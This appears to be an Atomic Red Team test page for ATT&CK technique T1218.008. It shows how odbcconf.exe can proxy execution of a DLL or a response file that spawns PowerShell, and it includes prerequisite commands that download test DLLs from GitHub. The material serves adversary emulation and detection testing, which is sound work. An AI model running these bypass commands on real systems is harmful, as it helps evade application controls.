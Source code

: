 # T1218.008 - Signed Binary Proxy Execution: Odbcconf
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)
<blockquote>Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The Odbcconf.exe binary may be digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)

- [Atomic Test #2 - Odbcconf.exe - Load Response File](#atomic-test-2---odbcconfexe---load-response-file)


<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows


**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - Odbcconf.exe - Load Response File
Execute arbitrary response file that will spawn PowerShell.exe.
Source files: https://github.com/woanware/application-restriction-bypasses

**Supported Platforms:** Windows


**auto_generated_guid:** 331ce274-f9c9-440b-9f8c-a1006e1fce0b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rsp_file_name | Response file name to load | String | T1218.008.rsp|
| rsp_file_path | Response file path | String | PathToAtomicsFolder&#92;T1218.008&#92;bin&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cd #{rsp_file_path}
odbcconf.exe -f #{rsp_file_name}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.008.rsp must exist on disk at specified location (#{rsp_file_path}#{rsp_file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{rsp_file_path}#{rsp_file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/T1218.008.rsp" -OutFile "#{rsp_file_path}#{rsp_file_name}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/o.dll" -OutFile "#{rsp_file_path}\o.dll"
```




<br/>
